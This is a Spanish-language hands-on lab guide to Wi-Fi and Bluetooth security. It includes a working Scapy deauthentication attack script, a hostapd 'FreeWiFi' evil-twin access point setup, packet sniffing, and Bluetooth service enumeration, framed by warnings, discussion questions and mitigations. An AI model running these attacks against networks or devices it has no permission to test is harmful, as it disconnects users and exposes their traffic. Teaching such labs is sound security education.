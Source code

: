 # **Guía de Laboratorio Práctico: Seguridad en Wi-Fi y Bluetooth**

## **Resumen del Laboratorio**
Este laboratorio te guiará a través de pruebas de seguridad en **Wi-Fi** y **Bluetooth** utilizando **Python**. Aprenderás a:
- Capturar paquetes.
- Realizar ataques de desautenticación.
- Escanear dispositivos Bluetooth.
- Probar vulnerabilidades en la comunicación inalámbrica.

---

## **Laboratorio 1: Análisis de Seguridad en Wi-Fi con Scapy**

### **Objetivo**
✅ Capturar y analizar tráfico Wi-Fi.
✅ Probar ataques de desautenticación.
✅ Explorar puntos de acceso falsos.

### **Requisitos Previos**
- Un ordenador con **Linux** y una **tarjeta inalámbrica que soporte modo monitor**.
- Instalar `scapy`:
  ```bash
  pip install scapy
  ```
- Configurar la tarjeta Wi-Fi en **modo monitor**:
  ```bash
  airmon-ng start wlan0
  ```

### **Tarea 1: Captura de Paquetes**
1. Ejecuta el siguiente script para capturar paquetes Wi-Fi:
   ```python
   from scapy.all import *
   
   def manejar_paquete(paquete):
       if paquete.haslayer(Dot11):
           print(paquete.summary())
   
   sniff(iface="wlan0mon", prn=manejar_paquete, store=0)
   ```
2. Observa las **direcciones MAC** y los **tipos de tramas**.
3. Identifica cualquier **dato no cifrado**.

**📌 Pregunta:** ¿Qué tipos de paquetes capturaste? ¿Había paquetes sin cifrar?

---

### **Tarea 2: Ataque de Desautenticación**
⚠ **Advertencia:** Solo prueba esto en tu propia red.

1. Identifica la **dirección MAC del dispositivo objetivo** y la **dirección MAC del router**.
2. Modifica el siguiente script con las direcciones MAC correctas:
   ```python
   def desautenticar(mac_objetivo, mac_router, iface="wlan0mon", cantidad=100):
       from scapy.all import *
       dot11 = Dot11(addr1=mac_objetivo, addr2=mac_router, addr3=mac_router)
       paquete = RadioTap()/dot11/Dot11Deauth(reason=7)
       sendp(paquete, iface=iface, count=cantidad, inter=0.1, verbose=1)
   
   desautenticar("AA:BB:CC:DD:EE:FF", "11:22:33:44:55:66")
   ```
3. Ejecuta el script y observa si el dispositivo objetivo se desconecta.

**📌 Pregunta:** ¿Qué sucede cuando el dispositivo se desautentica? ¿Cómo se puede mitigar este ataque?

---

### **Tarea 3: Punto de Acceso Falso (Ataque Evil Twin)**
1. Crea un **punto de acceso falso** con la siguiente configuración:
   ```bash
   echo "interface=wlan0mon
   ssid=FreeWiFi
   channel=6" > hostapd.conf
   ```
2. Inicia el punto de acceso:
   ```bash
   hostapd hostapd.conf
   ```
3. Intenta conectarte al punto de acceso falso desde otro dispositivo.

**📌 Pregunta:** ¿Cómo pueden los usuarios protegerse contra ataques Evil Twin?

---

## **Laboratorio 2: Pruebas de Seguridad en Bluetooth con Python**

### **Objetivo**
✅ Escanear dispositivos Bluetooth.
✅ Identificar servicios Bluetooth.
✅ Simular ataques Bluetooth.

### **Requisitos Previos**
- Instalar `pybluez`:
  ```bash
  pip install pybluez
  ```
- Habilitar Bluetooth en tu sistema.

### **Tarea 1: Descubrimiento de Dispositivos Bluetooth**
1. Ejecuta el siguiente script:
   ```python
   import bluetooth
   
   print("Escaneando dispositivos Bluetooth...")
   dispositivos = bluetooth.discover_devices(duration=8, lookup_names=True)
   
   for addr, name in dispositivos:
       print(f"Dispositivo encontrado: {name} - {addr}")
   ```
2. Identifica los dispositivos Bluetooth cercanos.
3. Compara los resultados con el escaneo de Bluetooth en tu móvil.

**📌 Pregunta:** ¿Todos los dispositivos Bluetooth son visibles? ¿Por qué algunos pueden estar ocultos?

---

### **Tarea 2: Enumeración de Servicios Bluetooth**
1. Elige una **dirección MAC de dispositivo objetivo** de la Tarea 1.
2. Ejecuta el siguiente script:
   ```python
   mac_objetivo = "XX:XX:XX:XX:XX:XX"
   servicios = bluetooth.find_service(address=mac_objetivo)
   
   if servicios:
       for servicio in servicios:
           print(f"Nombre del servicio: {servicio['name']}")
           print(f"  Host: {servicio['host']}")
           print(f"  Protocolo: {servicio['protocol']}")
           print(f"  Puerto: {servicio['port']}\n")
   else:
       print("No se encontraron servicios.")
   ```
3. Lista los servicios disponibles.

**📌 Pregunta:** ¿Qué tipos de servicios encontraste? ¿Cómo pueden los atacantes explotar los servicios Bluetooth abiertos?

---

## **Discusión y Técnicas de Mitigación**

### **Mitigaciones para Seguridad en Wi-Fi**
✅ Utilizar cifrado **WPA3**.
✅ Activar **aleatorización de dirección MAC**.
✅ Deshabilitar **WPS** y evitar el uso de SSID ocultos.
✅ Usar **Protección de Tramas de Gestión (MFP)** para prevenir ataques de desautenticación.

### **Mitigaciones para Seguridad en Bluetooth**
✅ Mantener el Bluetooth **desactivado** cuando no se use.
✅ Utilizar **lista blanca de dispositivos**.
✅ Emparejar dispositivos en **entornos seguros**.
✅ Utilizar **cifrado Bluetooth Low Energy (BLE)** cuando esté disponible.

---

## **Informe Final**
Al finalizar el laboratorio, redacta un breve **informe de seguridad** que incluya:
- Hallazgos de **captura y ataques Wi-Fi**.
- Observaciones del **escaneo Bluetooth**.
- **Contramedidas** para cada vulnerabilidad.

---

## **Notas del Instructor**
- Asegurar que los estudiantes realicen estas actividades **solo en redes/dispositivos propios**.
- Discutir **implicaciones legales y éticas**.
- Fomentar el pensamiento sobre **aplicaciones de seguridad en el mundo real**.

